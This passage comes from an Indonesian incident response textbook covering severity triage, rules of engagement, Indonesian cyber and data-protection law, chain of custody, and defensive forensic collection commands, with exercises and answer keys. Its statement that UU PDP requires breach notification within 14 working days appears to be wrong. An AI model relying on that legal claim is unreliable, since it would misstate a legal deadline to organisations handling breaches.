━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Functional  | Info Impact | Recoverability | → Severity
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Total       | Privacy/    | Not Recoverable| → CRITICAL
            | Integrity   |                |
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Significant | Privacy     | Extended       | → HIGH
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Minimal     | Proprietary | Supplemented   | → MEDIUM
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
None        | None        | Regular        | → LOW
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

### 4.3 Rules of Engagement (RoE)

*Rules of Engagement* mendefinisikan batas-batas tindakan yang diizinkan selama respons insiden. Ini bukan hanya tentang legalitas, tetapi juga tentang pelestarian bukti dan mencegah kerusakan lebih lanjut.

**Pertanyaan kunci dalam RoE:**

1. **Scope:** Apakah tim boleh mengakses sistem yang dicurigai tanpa izin tambahan? Jawabannya harus sudah tersedia dalam kebijakan IR — jangan baru mengklarifikasi saat insiden.

2. **Authorization levels:** Siapa yang berwenang untuk:
   - Mengisolasi satu host dari network? (L2 Analyst)
   - Mengisolasi seluruh segmen network? (Incident Manager + CISO)
   - Mematikan server produksi? (Incident Manager + Business Owner)
   - Membayar ransom? (C-suite + Board)

3. **Evidence handling:** Apa yang boleh dan tidak boleh dilakukan terhadap sistem yang dikompromis sebelum forensic acquisition dilakukan?
   - JANGAN: menjalankan antivirus yang menghapus malware sebelum sample diamankan
   - JANGAN: me-reboot sistem sebelum memory dump diambil
   - BOLEH: mengambil screenshot tampilan layar sebagai evidence awal

4. **Communication:** Siapa yang boleh berbicara kepada media? Kepada regulasi? Kepada customer?

5. **Attribution:** Haruskah tim mencoba mengidentifikasi siapa pelaku? (Umumnya bukan prioritas dan bisa berbahaya — fokus pada remediation).

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Skenario klasifikasi dan severity assessment:**

Tiga alert masuk secara bersamaan ke SOC pada Jumat sore pukul 17:00:

**Alert A:** 500 email phishing berhasil menembus filter dan dikirim ke karyawan. 3 karyawan melaporkan telah klik link. Tidak diketahui apakah ada yang memasukkan credential.
- Kategori: Multiple (Phishing delivery + potential unauthorized access)
- Functional Impact: Belum diketahui (Minimal–Significant)
- Info Impact: Potential Privacy Breach (jika credential dikompromis)
- Recoverability: Supplemented
- Severity: **HIGH** — Eskalasi segera, investigasi credential dari 3 karyawan, force password reset.

**Alert B:** Server database mengirim data 50 GB ke IP eksternal yang tidak dikenal dalam 2 jam terakhir.
- Kategori: Unauthorized Access / Data Exfiltration
- Functional Impact: Minimal (server masih berjalan)
- Info Impact: **Privacy/Proprietary Breach** — 50 GB data → kemungkinan sangat signifikan
- Recoverability: Extended (data sudah di luar, tidak bisa "di-un-exfiltrate")
- Severity: **CRITICAL** — Isolasi segera, preserve evidence, notifikasi CISO dan Legal

**Alert C:** 10.000 scan port terdeteksi dari IP eksternal terhadap firewall.
- Kategori: Scans/Probes
- Functional Impact: None (firewall menahan semua)
- Info Impact: None (hanya melihat port terbuka yang memang public)
- Recoverability: Regular
- Severity: **LOW** — Log, blokir IP jika belum diblokir, tidak perlu eskalasi

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menyusun severity matrix kustom untuk organisasi spesifik dan menggunakannya untuk triage skenario insiden.

**Langkah:**
1. Pilih satu tipe organisasi (pilih dari: bank, rumah sakit, universitas, e-commerce).
2. Identifikasi 5 aset paling kritikal dari organisasi tersebut.
3. Susun severity matrix kustom dengan level Critical, High, Medium, Low — definisikan setiap level berdasarkan dampak spesifik pada organisasi tersebut.
4. Diberikan 5 skenario insiden, klasifikasikan menggunakan matrix yang telah dibuat dan tentukan tindakan respons dalam 15 menit pertama, 1 jam pertama, dan 24 jam pertama.

**Output:** Severity matrix + klasifikasi 5 skenario — bagian dari Eval-1.

## 8. Latihan Pemahaman

1. **(C2)** Apa perbedaan antara "severity" dan "urgency" dalam konteks respons insiden? Berikan contoh insiden dengan severity tinggi tapi urgency rendah, dan insiden dengan severity rendah tapi urgency tinggi.

2. **(C4)** Sebuah analis menerima alert: "Pengguna admin membuka dokumen Word yang berisi makro dari email yang tidak dikenal." Klasifikasikan insiden ini dan tentukan severity-nya dengan justifikasi lengkap.

3. **(C3)** Dalam Rules of Engagement, mengapa keputusan "mematikan server yang dikompromis segera" bisa menjadi kesalahan taktis meskipun terasa intuitif sebagai langkah keamanan?

## 9. Latihan Terapan / Studi Kasus

Bank mengoperasikan ATM network dengan 500 mesin. Pada Sabtu pagi, monitoring mendeteksi pola tidak biasa: 47 ATM melakukan transaksi penarikan berturut-turut dengan kartu berbeda namun dalam pola yang identik (jumlah yang sama, interval 30 detik, semua dari akun yang dibuka dalam 2 minggu terakhir). Selanjutnya, pukul 10:00, beberapa nasabah melaporkan rekening diuras. Gunakan dimensi severity NIST SP 800-61 untuk menilai insiden ini dan susun prioritas respons 3 jam pertama.

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Severity mengukur *dampak aktual* insiden terhadap aset dan operasi — seberapa parah jika terjadi. Urgency mengukur *kecepatan yang dibutuhkan* untuk merespons — seberapa cepat situasi akan memburuk jika tidak ditangani. Contoh severity tinggi, urgency rendah: database backup berhasil dieksfiltrasi 2 minggu lalu (dampak besar — data bocor, tapi tidak ada yang aktif saat ini, urgensi mediun-normal). Contoh urgency tinggi, severity rendah: credential satu karyawan junior terkunci karena bruteforce (dampak rendah — satu karyawan tidak bisa login, tapi jika sistem lock-out otomatis, urgency tinggi karena karyawan tidak bisa bekerja dalam hitungan menit).

**Soal 2:** Klasifikasi: Malicious Code (potential) + Phishing (delivery vector). Severity: Functional Impact — Minimal saat ini tapi potensial Significant jika makro berhasil dieksekusi. Information Impact — Potential Proprietary Breach jika makro mencuri data. Recoverability — Supplemented. Severity: HIGH. Alasan: dokumen Word dengan makro adalah classic delivery mechanism untuk malware (seperti Emotet, TrickBot); risiko tinggi bahwa makro akan mengeksekusi payload berbahaya jika user mengaktifkan makro. Respons: segera isolasi workstation, ambil copy dokumen untuk analisis forensik, jangan biarkan user membuka dokumen lagi.

**Soal 3:** Mematikan server segera bisa menjadi kesalahan karena: (a) data volatile — memory RAM menyimpan kunci enkripsi, proses aktif, koneksi network yang mungkin mengungkap identitas attacker, dan semua ini hilang saat server dimatikan; (b) chain of custody — mematikan server tanpa prosedur yang benar dapat dianggap sebagai "alteration of evidence" yang dapat memperlemah posisi hukum; (c) jika server memiliki layanan kritikal, mematikannya secara mendadak bisa menyebabkan kerusakan tambahan (database corruption). Alternatif yang lebih baik: isolasi dari network (cabut koneksi network atau VLAN quarantine) sambil sistem masih running, kemudian lakukan forensic acquisition sebelum investigasi lebih lanjut.

**Studi Kasus ATM:** Severity assessment: Functional Impact — Significant (47 ATM terganggu, transaksi mencurigakan aktif); Info Impact — Privacy Breach + Integrity Loss (data akun nasabah, transaksi fiktif); Recoverability — Extended (uang sudah ditarik, nasabah sudah dirugikan). Severity: **CRITICAL**. Respons 3 jam pertama: (0-15 menit): blokir pola transaksi yang teridentifikasi di semua ATM; eskalasi ke Incident Manager + CISO + Legal + unit antifraud; (15-60 menit): isolasi atau set limit transaksi pada ATM yang menunjukkan pola; identifikasi semua kartu yang terlibat; (1-3 jam): briefing management, aktivasi kontrak dengan perusahaan forensik jika perlu, koordinasi dengan OJK (otoritas jasa keuangan) sesuai kewajiban pelaporan, hubungi nasabah yang terdampak. Ini kemungkinan adalah jackpotting attack atau ATM black box attack yang memanfaatkan XFS command interface.

## 11. Ringkasan Bab

Taksonomi insiden memungkinkan klasifikasi yang konsisten dan komunikasi yang terstandar antar tim. Severity assessment menggunakan tiga dimensi NIST (Functional Impact, Information Impact, Recoverability) untuk menentukan prioritas respons. Rules of Engagement mendefinisikan batas tindakan yang diizinkan dan hirarki pengambilan keputusan selama insiden.

## 12. Refleksi Profesional

1. Severity matrix yang sama dapat menghasilkan penilaian berbeda tergantung siapa yang menilai. Seorang analis keamanan mungkin menilai "data 50 GB keluar" sebagai CRITICAL, sementara manajer bisnis mungkin lebih khawatir tentang "layanan tidak tersedia 2 jam." Bagaimana Anda membangun proses severity assessment yang objektif dan konsisten dalam organisasi yang memiliki berbagai perspektif stakeholder?

---

# BAB 3 — LEGAL BOUNDARY, ETIKA, DAN EVIDENCE HANDLING AWAL

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Menjelaskan batas hukum yang berlaku dalam respons insiden di Indonesia
- Menerapkan prinsip etika profesi dalam konteks CSIRT
- Memahami konsep *chain of custody* dan pengaruhnya terhadap keabsahan bukti
- Menyusun CSIRT scope memo yang sesuai standar

*Berkaitan dengan Sub-CPMK-1, Eval-1 (10%)*

## 2. Peta Konsep Bab



## 3. Pengantar Kontekstual

Seorang analis CSIRT yang sedang merespons insiden memiliki akses luar biasa ke sistem dan data organisasi. Tanpa panduan etika dan hukum yang jelas, niat baik saja tidak cukup. Bayangkan: analis menemukan email komunikasi pribadi karyawan selama investigasi — bolehkah dibaca? Apa yang boleh disimpan? Bagaimana jika email tersebut mengandung bukti korupsi, bukan serangan siber? Batasan etika dan hukum bukan hambatan — ini adalah pagar yang melindungi analis, organisasi, dan individu yang datanya disentuh selama investigasi.

## 4. Landasan Teori

### 4.1 Kerangka Hukum Respons Insiden di Indonesia

**UU Informasi dan Transaksi Elektronik (UU ITE No. 11/2008 jo. 19/2016):**

Pasal-pasal yang relevan dengan respons insiden:
- Pasal 30: melarang akses sistem elektronik tanpa izin atau melampaui izin yang diberikan. *Implikasi untuk CSIRT:* otorisasi tertulis diperlukan untuk mengakses sistem karyawan atau mitra, bahkan selama investigasi.
- Pasal 31: melarang intersepsi transmisi elektronik. *Implikasi:* monitoring traffic jaringan karyawan tanpa kebijakan yang jelas dan notifikasi dapat melanggar pasal ini.
- Pasal 32: melarang pengubahan, penghilangan, atau pemindahan informasi elektronik. *Implikasi:* evidence handling yang tidak hati-hati (misalnya menghapus file sebelum diduplikasi) dapat melanggar pasal ini.

**UU Pelindungan Data Pribadi (UU PDP No. 27/2022):**

- Pasal 46: Kewajiban memberitahukan kepada Otoritas PDP dan subjek data pribadi dalam hal terjadi kegagalan pelindungan data pribadi paling lambat 14 hari kerja. *Implikasi:* CSIRT harus memiliki proses untuk mengidentifikasi apakah insiden melibatkan data pribadi dan memicu notifikasi breach jika diperlukan.
- Pasal 35: Pemrosesan data pribadi hanya dapat dilakukan berdasarkan dasar hukum yang sah. *Implikasi:* selama investigasi insiden, data pribadi yang dikumpulkan sebagai evidence harus dikelola sesuai prinsip PDP.

**Keterbatasan intersepsi jaringan:**
UU No. 36/1999 tentang Telekomunikasi dan PP No. 52/2000 membatasi intersepsi komunikasi. Dalam konteks enterprise, monitoring jaringan internal umumnya diizinkan jika ada kebijakan penggunaan IT yang jelas yang dinyatakan dalam kontrak kerja karyawan (notice of monitoring).

### 4.2 Prinsip Etika Profesi CSIRT

**Minimal footprint:** Akses dan kumpulkan hanya apa yang diperlukan untuk investigasi. Jangan melakukan "fishing expedition" — mengakses sistem atau data yang tidak relevan dengan insiden hanya karena bisa.

**Do no harm:** Tindakan respons tidak boleh memperburuk situasi. Contoh kesalahan umum: menjalankan antivirus yang menghapus malware sebelum sample diamankan; me-reboot sistem sebelum memory dump; mengisolasi server kritikal tanpa berkomunikasi dengan business owner.

**Need to know:** Informasi tentang insiden harus dibatasi pada mereka yang membutuhkannya untuk menangani insiden. Penyebaran informasi yang tidak perlu dapat: memperingatkan attacker (jika ada insider), memperburuk kepanikan, atau melanggar kewajiban kerahasiaan.

**Attribution caution:** Menuduh pelaku berdasarkan evidence yang tidak kuat adalah risiko hukum dan reputasi. "Kelihatannya dari negara X berdasarkan IP" tidak cukup — IP bisa dipalsukan, VPN bisa digunakan, infrastructure bisa disewa. CSIRT bukan lembaga penegak hukum — fokuslah pada remediation, bukan attributing.

**Privacy preservation:** Selama investigasi, Anda mungkin menemukan data pribadi karyawan (email, dokumen pribadi, riwayat browsing). Gunakan data ini hanya sejauh diperlukan untuk investigasi. Implementasikan kebijakan "scoping" yang jelas tentang data apa yang relevan.

### 4.3 Chain of Custody dan Evidence Handling

*Chain of custody* adalah dokumentasi lengkap tentang siapa yang memiliki, mengakses, atau memproses evidence pada setiap titik dalam proses investigasi. Ini kritis karena:
1. Membuktikan bahwa evidence tidak dimodifikasi sejak pengumpulan
2. Memungkinkan pihak lain untuk memverifikasi temuan
3. Diperlukan jika evidence akan digunakan dalam proses hukum

**Prinsip dasar evidence handling:**

```
SHA-256 Hash sebelum analisis:
$ sha256sum suspicious_file.exe
3f2a1b4c... suspicious_file.exe

# Simpan hash ini dalam log. Setelah analisis:
$ sha256sum suspicious_file.exe
3f2a1b4c... suspicious_file.exe  ← Harus identik

# Jika hash berubah → evidence telah dimodifikasi → tidak valid
```

**Langkah-langkah evidence handling yang benar:**

1. **Dokumentasi awal:** Sebelum menyentuh apapun — foto/screenshot tampilan layar, status sistem, koneksi network aktif.
2. **Acquisition dengan write blocker:** Untuk disk image, gunakan write blocker hardware atau software untuk mencegah perubahan pada evidence original. Tools: FTK Imager, dd dengan write protection.
3. **Hashing:** Hitung SHA-256 (atau MD5+SHA-1 untuk kompatibilitas) dari evidence original sebelum dan sesudah acquisition.
4. **Working copy:** Analisis selalu dilakukan pada *copy* evidence, tidak pada original.
5. **Dokumentasi chain:** Setiap perpindahan evidence dicatat: siapa yang menyerahkan, kepada siapa, kapan, untuk tujuan apa.
6. **Storage:** Evidence digital disimpan dalam format yang tidak dapat dimodifikasi atau di-write.

### 4.4 CSIRT Scope Memo

Scope memo adalah dokumen yang mendefinisikan batas-batas investigasi insiden sebelum dimulai. Ini melindungi analis dari scope creep dan memastikan ada otorisasi yang jelas.

**Komponen scope memo:**
- Deskripsi insiden dan sistem yang terkena
- Lingkup investigasi: sistem apa yang akan diakses, data apa yang boleh dikumpulkan
- Otorisasi: siapa yang memberikan izin dan jabatan mereka
- Batas etika dan hukum yang berlaku
- Timeline yang diperkirakan
- Siapa yang akan menerima laporan hasil investigasi
- Ketentuan kerahasiaan

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Evidence handling saat respons phishing yang sukses:**

Situasi: Karyawan mengklik link phishing dan mendownload file `invoice.exe`. File dieksekusi tetapi antivirus mendeteksi dan memkarantina sebelum proses selesai.

Yang HARUS dilakukan:
```bash
# 1. JANGAN hapus dari karantina AV dulu — ini evidence
# 2. Dokumentasi: timestamp, user, workstation, path file

# 3. Ambil hash dari file dalam karantina (melalui AV console atau tools forensik)
# Contoh jika file bisa diakses:
sha256sum /quarantine/invoice.exe
# Output: a3b4c5d6... invoice.exe

# 4. Export sample dari karantina AV (prosedur berbeda per vendor AV)
# JANGAN re-enable dan jalankan untuk "lihat apa yang terjadi" — ini berbahaya

# 5. Dokumentasi workstation: proses apa yang sempat berjalan?
# Di Windows, ambil dengan:
# Get-Process | Select-Object Name, Id, Path | Export-Csv processes.csv

# 6. Hash workstation memory image jika proses mencurigakan masih running:
# Gunakan Winpmem untuk memory acquisition
```

Yang TIDAK BOLEH dilakukan:
- Menjalankan file di workstation user untuk "melihat apa yang terjadi"
- Menghapus file dari karantina tanpa terlebih dahulu mengamankan sample
- Membersihkan browser history sebelum dianalisis (ini evidence)

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menyusun scope memo dan memahami implikasi hukum dalam skenario insiden.

**Skenario:** Anda adalah lead CSIRT di sebuah perusahaan fintech. Diterima laporan bahwa data transaksi pengguna diduga bocor — ribuan data terdeteksi dijual di darkweb forum. Analisis awal menunjukkan sumber kemungkinan adalah kebocoran dari sistem internal (bukan external attacker).

**Tugas:**
1. Susun scope memo untuk investigasi ini. Sertakan: sistem yang akan diakses, data yang boleh dikumpulkan, siapa yang memberikan otorisasi, batas hukum yang berlaku (UU PDP, UU ITE).
2. Identifikasi: apakah kewajiban pelaporan UU PDP terpicu? Jika ya, kepada siapa dan dalam berapa hari?
3. Identifikasi 3 dilema etika yang mungkin muncul dalam investigasi ini (misalnya: menemukan evidence aktivitas karyawan yang tidak terkait dengan insiden).
4. Buat template chain of custody form untuk digunakan dalam investigasi ini.

**Output:** Scope memo + chain of custody template — bagian dari Eval-1.

## 8. Latihan Pemahaman

1. **(C2)** Apa yang dimaksud dengan "minimal footprint" dalam konteks CSIRT? Mengapa prinsip ini penting dari perspektif hukum dan etika?

2. **(C4)** Seorang analis menemukan bahwa server yang dikompromis juga menyimpan email pribadi karyawan yang tidak terkait dengan insiden. Dalam proses forensik, email tersebut terindeks dalam memory dump. Apa yang seharusnya dilakukan analis, dan apa batas etika dan hukumnya?

3. **(C3)** Mengapa analisis selalu harus dilakukan pada *copy* evidence dan bukan pada evidence original? Apa konsekuensi jika evidence original dianalisis dan mengalami perubahan?

## 9. Latihan Terapan / Studi Kasus

Selama investigasi insiden ransomware di sebuah perusahaan manufaktur, analis CSIRT menemukan log yang mengungkapkan bahwa akun tertentu secara konsisten mengakses data produksi di luar jam kerja dan mengirimkan data ke email eksternal — pola yang dimulai 3 bulan sebelum ransomware aktif. Ini kemungkinan besar adalah insider threat yang terkait atau tidak terkait dengan ransomware. Analisis: (a) bagaimana analis mengelola konflik antara fokus pada incident response (ransomware) vs. investigasi temuan baru (insider threat)? (b) apakah analis boleh melanjutkan mengumpulkan evidence tentang insider threat tanpa otorisasi baru? (c) siapa yang harus diberitahu, kapan, dan dalam urutan apa?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Minimal footprint berarti analis hanya mengakses sistem, membaca data, dan mengeksekusi tools sebatas yang benar-benar diperlukan untuk investigasi insiden yang sedang ditangani. Artinya: tidak membaca email karyawan yang tidak terkait insiden meski secara teknis bisa diakses; tidak menginstall tools analisis di server produksi yang tidak terdampak; tidak menyimpan data yang tidak relevan. Pentingnya dari perspektif hukum: mencegah anggapan bahwa investigasi melanggar privasi (Pasal 30-31 UU ITE); meminimalkan eksposur data sensitif yang tidak perlu → mencegah pelanggaran UU PDP. Dari perspektif etika: menjaga kepercayaan karyawan dan organisasi bahwa investigasi tidak digunakan untuk tujuan lain selain keamanan.

**Soal 2:** Analis harus: (a) **hentikan** pengindeksan lebih lanjut dari data yang jelas tidak relevan dengan insiden; (b) dokumentasikan dalam laporan bahwa email pribadi ditemukan dalam scope forensik namun tidak diakses atau dianalisis; (c) konsultasikan dengan Legal dan Privacy Officer sebelum melanjutkan apapun yang menyentuh data ini; (d) jangan menyimpan, mendistribusikan, atau menganalisis email pribadi tersebut tanpa otorisasi eksplisit. Batas hukum: UU PDP pasal 35 — pemrosesan data pribadi harus berdasarkan dasar hukum yang sah; tanpa dasar hukum yang jelas, membaca email pribadi karyawan adalah pelanggaran UU PDP.

**Soal 3:** Analisis pada original berisiko: (a) tools forensik sendiri dapat memodifikasi file metadata (access time berubah saat file dibuka); (b) jika analisis membuat perubahan tak terduga (misalnya program crash dan menulis ke disk), hash original berubah; (c) jika original rusak atau terhapus secara tidak sengaja selama analisis, evidence hilang selamanya tanpa backup; (d) dalam proses hukum, pertanyaan "apakah evidence ini sama persis dengan yang ditemukan di sistem?" tidak dapat dijawab dengan yakin jika original tidak dijaga integritasnya. Hash sebelum dan sesudah membuktikan integritas — ini adalah standar minimal forensik digital.

**Studi Kasus:** (a) Analis harus **tidak** membelokkan fokus investigasi — kerjakan ransomware response sesuai scope yang ada. Temuan insider threat adalah informasi baru yang butuh scope terpisah. (b) Analis **tidak boleh** melanjutkan mengumpulkan evidence insider threat tanpa otorisasi baru — ini berbeda secara hukum dan operasional dari scope insiden ransomware. Mengumpulkan lebih banyak evidence tanpa otorisasi bisa dianggap melanggar UU ITE (akses melampaui izin). (c) Urutan notifikasi: (1) segera informasikan kepada Incident Manager dan CISO tentang temuan ini; (2) CISO menetapkan apakah perlu scope terpisah dengan otorisasi baru; (3) HR dan Legal dilibatkan sebelum bukti insider threat diakses lebih lanjut; (4) jika insider threat dikonfirmasi melibatkan pelanggaran data, Legal menentukan kewajiban pelaporan.

## 11. Ringkasan Bab

Kerangka hukum Indonesia (UU ITE, UU PDP, UU Telekomunikasi) membentuk batas-batas tindakan yang diizinkan selama respons insiden. Prinsip etika profesi CSIRT — minimal footprint, do no harm, need to know, attribution caution — melindungi analis, organisasi, dan individu. Chain of custody memastikan integritas evidence dan keabsahannya dalam proses hukum. Scope memo mendokumentasikan otorisasi dan batas investigasi sebelum dimulai.

## 12. Refleksi Profesional

1. Dalam praktik respons insiden, tekanan waktu sering mendorong analis untuk mengambil "jalan pintas" — misalnya menganalisis system langsung tanpa membuat image terlebih dahulu karena "lebih cepat." Bagaimana Anda membangun disiplin prosedural dalam tim CSIRT yang tetap mengikuti standar chain of custody bahkan di bawah tekanan waktu yang ekstrem?

2. Ketentuan UU PDP tentang notifikasi breach dalam 14 hari kerja menciptakan tekanan pada tim CSIRT untuk segera menentukan apakah insiden melibatkan data pribadi. Namun investigasi forensik yang komprehensif mungkin memerlukan waktu lebih dari 14 hari. Bagaimana Anda mengelola tegangan antara kewajiban hukum disclosure dan kebutuhan investigasi yang menyeluruh?


---

# BAB 4 — TRIAGE ARTEFAK ENDPOINT DAN NETWORK

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengidentifikasi dan mengumpulkan artefak endpoint yang relevan untuk investigasi insiden
- Mengidentifikasi dan menganalisis artefak jaringan dari berbagai sumber telemetri
- Menerapkan prinsip *order of volatility* dalam pengumpulan artefak
- Membuat inventori artefak yang terstruktur sebagai dasar investigasi

*Berkaitan dengan Sub-CPMK-2, Eval-2 (20%)*

## 2. Peta Konsep Bab



## 3. Pengantar Kontekstual

Bayangkan Anda tiba di TKP (Tempat Kejadian Perkara) digital 3 jam setelah insiden dilaporkan. Server masih menyala. Proses-proses mencurigakan mungkin masih berjalan. Koneksi ke server attacker mungkin masih aktif. Namun setiap menit yang berlalu, data volatile terus terancam hilang — proses bisa di-kill, koneksi bisa ditutup, dan log bisa di-overwrite. Triage artefak yang terstruktur dan berurutan berdasarkan volatilitas adalah keterampilan inti seorang DFIR (*Digital Forensics and Incident Response*) analyst.

## 4. Landasan Teori

### 4.1 Order of Volatility

RFC 3227 (*Guidelines for Evidence Collection and Archiving*) mendefinisikan urutan pengumpulan berdasarkan volatilitas — dari yang paling mudah hilang ke yang paling persisten:

```
PALING VOLATILE → PALING PERSISTEN
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
1. CPU Registers, Cache, RAM
2. Network state (routing table, ARP cache, open connections)
3. Running processes
4. Open files (file handles, locked files)
5. Disk (non-volatile storage)
6. Remote logging (SIEM, syslog server)
7. Physical configuration (network topology, hardware)
8. Archival media (backup tapes, offline storage)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

### 4.2 Artefak Endpoint

**Windows — Artefak Volatile:**

```powershell
# Proses yang berjalan — kumpulkan segera
Get-Process | Select-Object Name, Id, Path, StartTime, Company | 
    Export-Csv "processes_$(Get-Date -Format 'yyyyMMdd_HHmmss').csv"

# Koneksi network aktif — korelasikan dengan proses mencurigakan
netstat -ano > "netstat_$(Get-Date -Format 'yyyyMMdd_HHmmss').txt"
# Versi lebih detail dengan nama proses:
Get-NetTCPConnection | Select-Object State, LocalPort, RemoteAddress, 
    RemotePort, OwningProcess | Export-Csv "connections.csv"

# Users yang sedang login
query user > loggedon_users.txt

# Service dan driver
Get-Service | Where-Object Status -eq "Running" | 
    Export-Csv "running_services.csv"
Get-WmiObject Win32_SystemDriver | Export-Csv "drivers.csv"
```

**Windows — Artefak Semi-Volatile dan Non-Volatile Kunci:**

| Artefak | Lokasi | Informasi |
|---|---|---|
| Windows Event Log | `C:\Windows\System32\winevt\Logs\` | Logon/logoff, process creation, network, etc. |
| Prefetch | `C:\Windows\Prefetch\` | Program yang pernah dieksekusi, timestamp pertama dan terakhir |
| AmCache | `C:\Windows\AppCompat\Programs\Amcache.hve` | Metadata executable yang pernah dijalankan |
| ShimCache | Registry `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\AppCompatCache` | Program yang pernah berjalan |
| MFT (Master File Table) | `C:\$MFT` | Metadata semua file di NTFS, termasuk deleted |
| Browser History | Berbeda per browser | URL yang dikunjungi, download, cookies |
| Scheduled Tasks | `C:\Windows\System32\Tasks\` | Task yang terjadwal, digunakan attacker untuk persistence |
| Registry Run Keys | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` | Autostart persistence mechanism |

**Linux — Artefak Kunci:**

```bash
# Proses dan koneksi
ps aux --forest > processes.txt
ss -tulpn > network_connections.txt  # atau netstat -tulpn
lsof -i > open_network_files.txt

# Bash history (mungkin sudah dimanipulasi oleh attacker)
cat /home/user/.bash_history
# Lebih reliable: reconstruct dari syslog/auditd

# Cron jobs dan scheduled tasks
crontab -l > cron_current_user.txt
cat /etc/crontab
ls /etc/cron.* 

# Log files
ls -la /var/log/
# Syslog, auth.log, secure (tergantung distro)

# Recently modified files (bisa menunjukkan persistence mechanism)
find / -mtime -7 -type f 2>/dev/null | sort > recently_modified_7days.txt

# SUID/SGID files (sering digunakan untuk privilege escalation persistence)
find / -perm -4000 -type f 2>/dev/null
```

### 4.3 Artefak Jaringan

**Firewall Logs:**
```
# Contoh log Cisco ASA (format standar)
Sep 12 2025 14:23:45 fw-01 %ASA-6-302013: Built outbound TCP connection 
  12345 for outside:104.21.90.1/443 (104.21.90.1/443) 
  to inside:192.168.1.105/52341 (192.168.1.105/52341)

# Analisis: apa yang perlu dicari?
# 1. Koneksi ke IP/domain yang ada dalam threat intel feed
# 2. Volume traffic yang tidak biasa (ukuran, frekuensi)
# 3. Koneksi outbound ke port yang tidak umum (bukan 80/443)
# 4. "Beacon" pattern: koneksi reguler dengan interval yang konsisten → C2 indicator
```

**DNS Logs (query monitoring):**
```bash
# Format DNS log standar (dari Zeek dns.log)
# ts | uid | orig_h | query | qtype | answers
# 1694516625.123 | CaT3t... | 192.168.1.105 | update.windowsupdate.com | A | 204.79.197.200

# Red flags dalam DNS:
# 1. Query ke domain dengan entropi tinggi (subdomain panjang dan acak)
#    → kemungkinan DNS tunneling atau DGA (Domain Generation Algorithm)
